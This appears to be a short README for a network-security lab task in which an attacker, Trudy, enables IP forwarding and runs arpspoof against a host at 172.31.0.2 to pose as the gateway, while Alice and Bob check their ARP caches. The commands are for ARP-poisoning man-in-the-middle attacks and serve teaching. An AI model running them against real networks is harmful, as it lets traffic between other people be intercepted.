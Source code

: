 This is the readme for task 4.

### command to enable ipV4 forwarding .
>>sudo sysctl -w net.ipv4.ip_forward=1

### This commands are run by trudy for ARP poisoning, where the trudy changes default gateway address to its own address.
>> arpspoof -i eth0 -t 172.31.0.2 172.31.0.1
>> arpspoof -i eth0 -t 172.31.0.2 172.31.0.1

### Command for alice and bob to chek the ARP cache.
>>arp -a
